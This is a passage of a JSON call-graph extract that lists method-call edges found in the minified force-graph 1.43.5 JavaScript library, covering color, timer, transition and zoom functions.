"static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "property"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "formatHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "formatRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "displayable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "displayable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "formatHex8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "formatHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "darker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "displayable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "darker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "displayable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "formatHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "atan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "skewX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "skewX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "consolidate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "attrTween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "styleTween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "styleTween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "styleTween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "domain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "domain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invertX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invertX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invertY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invertY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "property"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tween"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "transition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "duration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, 